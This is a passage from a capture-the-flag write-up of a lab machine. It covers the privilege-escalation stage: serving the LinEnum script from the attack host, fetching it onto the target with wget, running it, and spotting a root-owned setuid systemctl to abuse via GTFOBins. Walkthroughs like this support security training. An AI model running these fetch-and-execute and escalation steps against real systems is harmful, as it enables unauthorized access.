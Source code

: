 Now we can view the user.txt flag.

![](https://miro.medium.com/max/686/1*MijyVJ7Njc-gyI3Jq0n4Sw.png)

To view the root.txt flag, we need to escalate our privileges to root.

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back the following result.

```text
.....

[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn.....
```

The _systemctl_ binary has the setuid bit set and it’s owned by root. We can use that to our advantage and escalate to root privileges. If you’re not sure how to do that, you can search the binary name on [GTFOBins](https://gtfobins.github.io/) and check how the suid bit can be used to escalate privileges.
